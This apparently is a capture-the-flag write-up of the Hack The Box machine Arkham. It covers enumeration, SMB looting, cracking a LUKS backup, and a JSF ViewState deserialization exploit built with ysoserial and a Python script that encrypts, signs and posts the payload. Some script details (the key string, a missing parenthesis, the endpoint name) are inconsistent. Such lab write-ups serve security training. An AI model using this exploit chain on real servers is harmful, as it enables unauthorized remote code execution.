





---
search:
  exclude: true
---
# Arkham Writeup

## Introduction :

Arkham is a Medium windows box released back in March 2019.

## **Part 1 : Initial Enumeration**

As always we begin our Enumeration using **Nmap** to enumerate opened ports. We will be using the flags **-sC** for default scripts and **-sV** to enumerate versions.
    
    
      [ 10.10.14.47/23 ] [ /dev/pts/3 ] [~]
      → sudo nmap -vvv -sTU -p- 10.10.10.130 --max-retries 0 -Pn --min-rate=1000 | grep Discovered
      [sudo] password for nothing:
      Discovered open port 139/tcp on 10.10.10.130
      Discovered open port 80/tcp on 10.10.10.130
      Discovered open port 135/tcp on 10.10.10.130
      Discovered open port 445/tcp on 10.10.10.130
      Discovered open port 8080/tcp on 10.10.10.130
      Discovered open port 49666/tcp on 10.10.10.130
      Discovered open port 49667/tcp on 10.10.10.130
    
      [ 10.10.14.47/23 ] [ /dev/pts/3 ] [~]
      → nmap -sCV -p139,80,135,445,8080,49666,49667 10.10.10.130
      Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-16 16:20 BST
      Nmap scan report for 10.10.10.130
      Host is up (0.11s latency).
    
      PORT      STATE SERVICE       VERSION
      80/tcp    open  http          Microsoft IIS httpd 10.0
      | http-methods:
      |_  Potentially risky methods: TRACE
      |_http-server-header: Microsoft-IIS/10.0
      |_http-title: IIS Windows Server
      135/tcp   open  msrpc         Microsoft Windows RPC
      139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
      445/tcp   open  microsoft-ds?
      8080/tcp  open  http          Apache Tomcat 8.5.37
      | http-methods:
      |_  Potentially risky methods: PUT DELETE
      |_http-title: Mask Inc.
      49666/tcp open  msrpc         Microsoft Windows RPC
      49667/tcp open  msrpc         Microsoft Windows RPC
      Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
    
      Host script results:
      |_clock-skew: 1m54s
      | smb2-security-mode:
      |   2.02:
      |_    Message signing enabled but not required
      | smb2-time:
      |   date: 2020-04-16T15:23:28
      |_  start_date: N/A
    
      Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
      Nmap done: 1 IP address (1 host up) scanned in 98.29 seconds
    

## **Part 2 : Getting User Access**

Our nmap scan picked up port 80 and 8080 so let's investigate them:

    
    
      [ 10.10.14.47/23 ] [ /dev/pts/3 ] [~]
      → gobuster dir --url http://10.10.10.130:8080 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50
      ===============================================================
      Gobuster v3.0.1
      by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
      ===============================================================
      [+] Url:            http://10.10.10.130:8080
      [+] Threads:        50
      [+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
      [+] Status codes:   200,204,301,302,307,401,403
      [+] User Agent:     gobuster/3.0.1
      [+] Timeout:        10s
      ===============================================================
      2020/04/16 16:44:32 Starting gobuster
      ===============================================================
      /images (Status: 302)
      /css (Status: 302)
      /js (Status: 302)
      /fonts (Status: 302)
      Progress: 133887 / 220561 (60.70%)^C
      [!] Keyboard interrupt detected, terminating.
      ===============================================================
      2020/04/16 16:49:39 Finished
      ===============================================================
    

` 

Forwarding the request the webpage returns the following: 

The url .faces may point out that the website is being hosted on JavaServer Faces, we can also see it in the post request that we captured: 
    
    
      POST /userSubscribe.faces HTTP/1.1
    Host: 10.10.10.130:8080
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Referer: http://10.10.10.130:8080/userSubscribe.faces
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 263
    DNT: 1
    Connection: close
    Cookie: JSESSIONID=861F4560D9A76BB7B7FB1DEC2E950CD3
    Upgrade-Insecure-Requests: 1
    
    j_id_jsp_1623871077_1%3Aemail=pr0metheus&j;_id_jsp_1623871077_1%3Asubmit=SIGN+UP&j;_id_jsp_1623871077_1_SUBMIT=1&**javax.faces.ViewState** =wHo0wmLu5ceItIi%2BI7XkEi1GAb4h12WZ894pA%2BZ4OH7bco2jXEy1RQxTqLYuokmO70KtDtngjDm0mNzA9qHjYerxo0jW7zu1mdKBXtxnT1RmnWUWTJyCuNcJuxE%3D
    

Onto which the javax.faces definitely hints us towards a JavaServer Faces. Now our nmap scan picked up the smb service running, so let's enumerate it using smbclient:
    
    
      [ 10.10.14.47/23 ] [ /dev/pts/3 ] [~]
      → smbclient -L //10.10.10.130/ -U ""
      Enter WORKGROUP\'s password:
    
      	Sharename       Type      Comment
      	---------       ----      -------
      	ADMIN$          Disk      Remote Admin
      	BatShare        Disk      Master Wayne's secrets
      	C$              Disk      Default share
      	IPC$            IPC       Remote IPC
      	Users           Disk
      SMB1 disabled -- no workgroup available
    

And we see an interesting share named "BatShare" so we log onto it : 
    
    
      [ 10.10.14.47/23 ] [ /dev/pts/3 ] [~/_HTB/Arkham]
    → smbclient -U anonymous //10.10.10.130/BatShare
    Enter WORKGROUP\anonymous's password:
    Try "help" to get a list of possible commands.
    smb: \> ls
      .                                   D        0  Sun Feb  3 13:00:10 2019
      ..                                  D        0  Sun Feb  3 13:00:10 2019
      appserver.zip                       A  4046695  Fri Feb  1 06:13:37 2019
    
    		5158399 blocks of size 4096. 2122527 blocks available
    smb: \> get appserver.zip
    getting file \appserver.zip of size 4046695 as appserver.zip (5027.8 KiloBytes/sec) (average 5027.8 KiloBytes/sec)
    smb: \> exit
    
    [ 10.10.14.47/23 ] [ /dev/pts/3 ] [~/_HTB/Arkham]
    → md5sum appserver.zip && file appserver.zip
    df93790f7ba2782cf59374e88dc52460  appserver.zip
    appserver.zip: Zip archive data, at least v2.0 to extract
    

And we get a zip file so we unzip it : 
    
    
      [ 10.10.14.47/23 ] [ /dev/pts/3 ] [~/_HTB/Arkham]
      → unzip appserver.zip
      Archive:  appserver.zip
        inflating: IMPORTANT.txt
        inflating: backup.img
    
      [ 10.10.14.47/23 ] [ /dev/pts/3 ] [~/_HTB/Arkham]
      → cat IMPORTANT.txt
      Alfred, this is the backup image from our linux server. Please see that The Joker or anyone else doesn't have unauthenticated access to it. - Bruce
    
      [ 10.10.14.47/23 ] [ /dev/pts/3 ] [~/_HTB/Arkham]
      → file backup.img
      backup.img: LUKS encrypted file, ver 1 [aes, xts-plain64, sha256] UUID: d931ebb1-5edc-4453-8ab1-3d23bb85b38e
    

And here we are dealing with a LUKS encrypted backup file which we have to crack, to do so we will first use dd to get the header hash: 
    
    
      [ 10.10.14.47/23 ] [ /dev/pts/3 ] [~/_HTB/Arkham]
      → dd if=backup.img of=luks-header bs=512 count=4097
      4097+0 records in
      4097+0 records out
      2097664 bytes (2.1 MB, 2.0 MiB) copied, 0.0342869 s, 61.2 MB/s
    
      [ 10.10.14.47/23 ] [ /dev/pts/3 ] [~/_HTB/Arkham]
      → file luks-header
      luks-header: LUKS encrypted file, ver 1 [aes, xts-plain64, sha256] UUID: d931ebb1-5edc-4453-8ab1-3d23bb85b38e
    
    

Once we have it we can use hashcat on it, however I didn't check the payload offset beforehand therefore the luks header i have right here is not the correct one : 
    
    
      [ 10.10.14.47/23 ] [ /dev/pts/3 ] [~/_HTB/Arkham]
      → sudo cryptsetup luksDump backup.img
      LUKS header information for backup.img
    
      Version:       	1
      Cipher name:   	aes
      Cipher mode:   	xts-plain64
      Hash spec:     	sha256
      **Payload offset:	4096**
      MK bits:       	256
      MK digest:     	9a 35 ab 3d b2 fe 09 d6 5a 92 bd 01 50 35 a6 ab dc ea 01 47
      MK salt:       	36 e8 8d 00 2f b0 3c 1f de 4d 9d 7b a6 9c 59 25
                     	7a e7 1d d7 89 3d 9c ab ef b6 09 8c a8 7b 87 13
      MK iterations: 	176409
      UUID:          	d931ebb1-5edc-4453-8ab1-3d23bb85b38e
    
      Key Slot 0: ENABLED
      	Iterations:         	2822546
      	Salt:               	3a db 8d 4b 9b f1 63 61 1b df a9 76 16 77 30 96
      	                      	5c 32 a9 aa e4 e7 9d cf 4e f5 9b 3f a1 4c 27 2f
      	Key material offset:	8
      	AF stripes:            	4000
      Key Slot 1: DISABLED
      Key Slot 2: DISABLED
      Key Slot 3: DISABLED
      Key Slot 4: DISABLED
      Key Slot 5: DISABLED
      Key Slot 6: DISABLED
      Key Slot 7: DISABLED
    

So here we see that the payload offset is actually 4096. 
    
    
      [ 10.10.14.47/23 ] [ /dev/pts/3 ] [~/_HTB/Arkham]
      → dd if=backup.img of=luks-header bs=512 count=4097
      4097+0 records in
      4097+0 records out
      2097664 bytes (2.1 MB, 2.0 MiB) copied, 0.0342137 s, 61.3 MB/s
    
      [ 10.10.14.47/23 ] [ /dev/pts/3 ] [~/_HTB/Arkham]
      → hashcat -m 14600 luks-header /usr/share/wordlists/rockyou.txt
    

Let it run, and once it's done we get the password "batmanforever". Now we can mount it using cryptsetup: 
    
    
      [ 10.10.14.47/23 ] [ /dev/pts/3 ] [~/_HTB/Arkham]
      → sudo cryptsetup luksOpen backup.img arkham
      Enter passphrase for backup.img:
    
      [ 10.10.14.47/23 ] [ /dev/pts/3 ] [~/_HTB/Arkham]
      → ls -lash /dev/mapper
      total 0
      0 drwxr-xr-x  2 root root      80 Apr 16 19:41 .
      0 drwxr-xr-x 20 root root    3.7K Apr 16 19:41 ..
      0 lrwxrwxrwx  1 root root       7 Apr 16 19:41 arkham -> ../dm-0
      0 crw-------  1 root root 10, 236 Apr 16 19:41 control
    

Now that arkham is there in /dev/mapper we can mount it: 
    
    
      [ 10.10.14.47/23 ] [ /dev/pts/3 ] [~/_HTB/Arkham]
      → sudo mount /dev/mapper/arkham /mnt
    
      [ 10.10.14.47/23 ] [ /dev/pts/3 ] [~/_HTB/Arkham]
      → cd /mnt
    
      [ 10.10.14.47/23 ] [ /dev/pts/3 ] [/mnt]
      → ls
      lost+found  Mask
    
      [ 10.10.14.47/23 ] [ /dev/pts/3 ] [/mnt]
      → cd Mask
    
      [ 10.10.14.47/23 ] [ /dev/pts/3 ] [/mnt/Mask]
      → ls
      docs  joker.png  me.jpg  mycar.jpg  robin.jpeg  tomcat-stuff
    

We can simply use thunar to view the images in there: 

We have a bunch of images, but the interesting part is in the tomcat-stuff directory.
    
    
      [ 10.10.14.47/23 ] [ /dev/pts/3 ] [/mnt/Mask]
      → cd tomcat-stuff && ls
      context.xml       jaspic-providers.xml  server.xml        web.xml
      faces-config.xml  MANIFEST.MF           tomcat-users.xml  web.xml.bak
    

Preety much everything here is default except for web.xml.bak: 

So this "secret" myfaces.SECRET value SnNGOTg3Ni0= can be used to decrypt the javax.faces.ViewState value which is very likely to contain a vulnerability as this [post](https://www.alphabot.com/security/blog/2017/java/Misconfigured-JSF-ViewStates-can-lead-to-severe-RCE-vulnerabilities.html) suggests: 
    
    
      POST /userSubscribe.faces HTTP/1.1
    Host: 10.10.10.130:8080
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Referer: http://10.10.10.130:8080/userSubscribe.faces
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 263
    DNT: 1
    Connection: close
    Cookie: JSESSIONID=861F4560D9A76BB7B7FB1DEC2E950CD3
    Upgrade-Insecure-Requests: 1
    
    j_id_jsp_1623871077_1%3Aemail=pr0metheus&j;_id_jsp_1623871077_1%3Asubmit=SIGN+UP&j;_id_jsp_1623871077_1_SUBMIT=1&**javax.faces.ViewState=** wHo0wmLu5ceItIi%2BI7XkEi1GAb4h12WZ894pA%2BZ4OH7bco2jXEy1RQxTqLYuokmO70KtDtngjDm0mNzA9qHjYerxo0jW7zu1mdKBXtxnT1RmnWUWTJyCuNcJuxE%3D
    
    

Now to do so we'll create a python script: 
    
    
      [ 10.10.14.47/23 ] [ /dev/pts/3 ] [~/_HTB/Arkham]
      → ls
      appserver.zip  backup.img  IMPORTANT.txt  luks-header
    
      [ 10.10.14.47/23 ] [ /dev/pts/3 ] [~/_HTB/Arkham]
      → nano exploit.py
    
    
    
      from base64 import b64decode, b64encode
      from hashlib import sha1
    
      def decrypt_view_state(view_state):
              key=b64decode('SnGOTg3Ni0=')
    
      print(decrypt_view_state("wHo0wmLu5ceItIi%2BI7XkEi1GAb4h12WZ894pA%2BZ4OH7bco2jXEy1RQxTqLYuokmO70KtDtngjDm0mNzA9qHjYerxo0jW7zu1mdKBXtxnT1RmnWUWTJyCuNcJuxE%3D"))
    
    

Now our problem here is that we don't know how it was encrypted, so we go and read the documentation and find the DES algorithm:
    
    
      import pyDes, hmac
      from base64 import b64decode, b64encode
      from hashlib import sha1
    
      def decrypt_view_state(view_state):
              key=b64decode('SnGOTg3Ni0=')
              obj = pyDes.des(key, pyDes.ECB, padmode=pyDes.PAD_PKCS5)
              view_state=b64decode(view_state)
              view_state=view_state + b'\x00\x00\x00\x00'
              print(len(view_state))
              dec = obj.decrypt(view_state)
              return dec
    
      print(decrypt_view_state("wHo0wmLu5ceItIi%2BI7XkEi1GAb4h12WZ894pA%2BZ4OH7bco2jXEy1RQxTqLYuokmO70KtDtngjDm0mNzA9qHjYerxo0jW7zu1mdKBXtxnT1RmnWUWTJyCuNcJuxE="))
    

Which reveals us that we are working with a java object with padding. So from there we create a payload using ysoserial:
    
    
    
      [ 10.10.14.47/23 ] [ /dev/pts/0 ] [~/_HTB/Arkham]
      → wget https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar
      --2020-04-17 08:38:02--  https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar
      Resolving jitpack.io (jitpack.io)... 104.26.9.99, 104.26.8.99, 2606:4700:20::681a:863, ...
      Connecting to jitpack.io (jitpack.io)|104.26.9.99|:443... connected.
      HTTP request sent, awaiting response... 302 Found
      Location: /com/github/frohoff/ysoserial/master-30099844c6-1/ysoserial-master-30099844c6-1.jar [following]
      --2020-04-17 08:38:03--  https://jitpack.io/com/github/frohoff/ysoserial/master-30099844c6-1/ysoserial-master-30099844c6-1.jar
      Reusing existing connection to jitpack.io:443.
      HTTP request sent, awaiting response... 200 OK
      Length: 56112629 (54M) [application/java-archive]
      Saving to: ‘ysoserial-master-SNAPSHOT.jar’
    
      ysoserial-master-SNAPSH 100%[=============================>]  53.51M  9.50MB/s    in 5.6s
    
      Last-modified header invalid -- time-stamp ignored.
      2020-04-17 08:38:08 (9.61 MB/s) - ‘ysoserial-master-SNAPSHOT.jar’ saved [56112629/56112629]
    
    

From which we are able to do java -jar : 
    
    
    
      [ 10.10.14.47/23 ] [ /dev/pts/0 ] [~/_HTB/Arkham]
      → java -jar ysoserial-master-SNAPSHOT.jar
      Y SO SERIAL?
      Usage: java -jar ysoserial-[version]-all.jar [payload] '[command]'
        Available payload types:
      Apr 17, 2020 8:38:44 AM org.reflections.Reflections scan
      INFO: Reflections took 217 ms to scan 1 urls, producing 18 keys and 146 values
           Payload             Authors                                Dependencies
           -------             -------                                ------------
           BeanShell1          @pwntester, @cschneider4711            bsh:2.0b5
           C3P0                @mbechler                              c3p0:0.9.5.2, mchange-commons-java:0.2.11
           Clojure             @JackOfMostTrades                      clojure:1.8.0
           CommonsBeanutils1   @frohoff                               commons-beanutils:1.9.2, commons-collections:3.1, commons-logging:1.2
           CommonsCollections1 @frohoff                               commons-collections:3.1
           CommonsCollections2 @frohoff                               commons-collections4:4.0
           CommonsCollections3 @frohoff                               commons-collections:3.1
           CommonsCollections4 @frohoff                               commons-collections4:4.0
           CommonsCollections5 @matthias_kaiser, @jasinner            commons-collections:3.1
           CommonsCollections6 @matthias_kaiser                       commons-collections:3.1
           CommonsCollections7 @scristalli, @hanyrax, @EdoardoVignati commons-collections:3.1
           FileUpload1         @mbechler                              commons-fileupload:1.3.1, commons-io:2.4
           Groovy1             @frohoff                               groovy:2.3.9
           Hibernate1          @mbechler
           Hibernate2          @mbechler
           JBossInterceptors1  @matthias_kaiser                       javassist:3.12.1.GA, jboss-interceptor-core:2.0.0.Final, cdi-api:1.0-SP1, javax.interceptor-api:3.1, jboss-interceptor-spi:2.0.0.Final, slf4j-api:1.7.21
           JRMPClient          @mbechler
           JRMPListener        @mbechler
           JSON1               @mbechler                              json-lib:jar:jdk15:2.4, spring-aop:4.1.4.RELEASE, aopalliance:1.0, commons-logging:1.2, commons-lang:2.6, ezmorph:1.0.6, commons-beanutils:1.9.2, spring-core:4.1.4.RELEASE, commons-collections:3.1
           JavassistWeld1      @matthias_kaiser                       javassist:3.12.1.GA, weld-core:1.1.33.Final, cdi-api:1.0-SP1, javax.interceptor-api:3.1, jboss-interceptor-spi:2.0.0.Final, slf4j-api:1.7.21
           Jdk7u21             @frohoff
           Jython1             @pwntester, @cschneider4711            jython-standalone:2.5.2
           MozillaRhino1       @matthias_kaiser                       js:1.7R2
           MozillaRhino2       @_tint0                                js:1.7R2
           Myfaces1            @mbechler
           Myfaces2            @mbechler
           ROME                @mbechler                              rome:1.0
           Spring1             @frohoff                               spring-core:4.1.4.RELEASE, spring-beans:4.1.4.RELEASE
           Spring2             @mbechler                              spring-core:4.1.4.RELEASE, spring-aop:4.1.4.RELEASE, aopalliance:1.0, commons-logging:1.2
           URLDNS              @gebl
           Vaadin1             @kai_ullrich                           vaadin-server:7.7.14, vaadin-shared:7.7.14
           Wicket1             @jacob-baines                          wicket-util:6.23.0, slf4j-api:1.6.4
    
    

in java myfaces there is alot of common collections, so we'll use CommonsCollections5:
    
    
    
      [ 10.10.14.47/23 ] [ /dev/pts/0 ] [~/_HTB/Arkham]
      → java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections5 'cmd /c ping -n 10.10.14.3'
      detailMessagetLjava/lang/String;[alueExpExceptionګc-F@LvaltLjava/lang/Object;xrjava.lang.Exception>;xrjava.lang.Throwable5'9wLcausetLjava/lang/Throwable;L
      stackTracet[Ljava/lang/StackTraceElement;LsuppressedExceptionstLjava/util/List;xpqpur[Ljava.lang.StackTraceElement;F*<<"9xpsrava.lang.StackTraceElementa        Ś&BformatI;
      lineNumberLclassLoaderNameq~LdeclaringClassq~fileNameq~L
      methodNameq~L
      moduleVersionq~xpQtappt&ysoserial.payloads.CommonsCollections5tCommonsCollections5.javat;        getObjectppsq~
      q~q~q~ppsq~                                                                                                   3q~
      tysoserial.GeneratePayloadtGeneratePayload.javatmainppsrjava.util.Collections$EmptyListz<****xpxsr4org.apache.commons.collections.keyvalue.TiedMapEntryқ9Lkeyq~LmaptLjava/util/Map;xptfoosr*org.apaiTransformerst-[Lorg/apache/commons/collections/Transformer;xpur-[Lorg.apache.commons.collections.Transformer;V*4xpsr;org.apache.commons.collections.functors.ConstantTransformerXvAL   iConstantq~xpvrjava.lang.Runtimexpsr:org.apache.commons.collections.functors.InvokerTransformerk{|8[iArgst[Ljava/lang/Object;L
                                                                                                                             iMethodNameq~[
                                                                                                                                           iParamTypest[Ljava/lang/Class;xpur[Ljava.lang.Object;Xs)lxpt
      getRuntimeur[Ljava.lang.Class;׮Zxpt     getMethoduq~/vrjava.lang.String8z;Bxpvq~/sq~(uq~,puq~,tinvokeuq~/vrjava.lang.Objectxpvq~,sq~(ur[Ljava.lang.String;V{Gxptcmd /c ping -n 10.10.14.3texecuq~/q~4sq~$srjava.lang.Integer⠤8Ivaluexrjava.lang.Number
                                                             xpsrjava.util.HashMap`F
      loadFactorI     thresholdxp?@xx%
    
      [ 10.10.14.47/23 ] [ /dev/pts/0 ] [~/_HTB/Arkham]
      → java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections5 'cmd /c ping -n 10.10.14.47' > payload.bin
    
      [ 10.10.14.47/23 ] [ /dev/pts/0 ] [~/_HTB/Arkham]
      → nano exploit.py

So we saved our payload as payload.bin, now we edit our previous exploit:
    
    
      import pyDes, hmac
      from base64 import b64decode, b64encode
      from hashlib import sha1
    
      def create_payload():
              payload=open('payload.bin','rb').read()
              return encrypt_payload(payload)
    
      def encrypt_payload(payload):
              key=b64decode('SnGOTg3Ni0=')
              obj = pyDes.des(key, pyDes.ECB, padmode=pyDes.PAD_PKCS5)
              enc = obj.encrypt(payload)
              hash_val = (hmac.new(key, bytes(enc),sha1).digest())
              payload= enc + hash_val
              return b64encode(payload)
    
      def decrypt_view_state(view_state):
              key=b64decode('SnGOTg3Ni0=')
              obj = pyDes.des(key, pyDes.ECB, padmode=pyDes.PAD_PKCS5)
              view_state=b64decode(view_state)
              view_state=view_state + b'\x00\x00\x00\x00'
              dec = obj.decrypt(view_state)
              return dec
    
      print(decrypt_view_state("wHo0wmLu5ceItIi%2BI7XkEi1GAb4h12WZ894pA%2BZ4OH7bco2jXEy1RQxTqLYuokmO70KtDtngjDm0mNzA9qHjYerxo0jW7zu1mdKBXtxnT1RmnWUWTJyCuNcJuxE="))
      print(create_payload()
    

To which we add the http POST request we need:
    
    
      import requests
      import pyDes, hmac
      from base64 import b64decode, b64encode
      from hashlib import sha1
    
      def create_payload():
              payload=open('payload.bin','rb').read()
              return encrypt_payload(payload)
    
      def encrypt_payload(payload):
              key=b64decode('SnGOTg3Ni0=')
              obj = pyDes.des(key, pyDes.ECB, padmode=pyDes.PAD_PKCS5)
              enc = obj.encrypt(payload)
              hash_val = (hmac.new(key, bytes(enc),sha1).digest())
              payload= enc + hash_val
              return b64encode(payload)
    
      def decrypt_view_state(view_state):
              key=b64decode('SnGOTg3Ni0=')
              obj = pyDes.des(key, pyDes.ECB, padmode=pyDes.PAD_PKCS5)
              view_state=b64decode(view_state)
              view_state=view_state + b'\x00\x00\x00\x00'
              dec = obj.decrypt(view_state)
              return dec
    
      #print(decrypt_view_state("wHo0wmLu5ceItIi%2BI7XkEi1GAb4h12WZ894pA%2BZ4OH7bco2jXEy1RQxTqLYuokmO70KtDtngjDm0mNzA9qHjYerxo0jW7zu1mdKBXtxnT1RmnWUWTJyCuNcJuxE="))
      #print(create_payload())
    
      def exploit():
              url='http://10.10.10.130:8080/userPr0metheus.faces'
              view_state=create_payload()
              data = { 'javax.faces.ViewState' : view_state }
              requests.post(url,data=data)
    
      exploit()
    
    

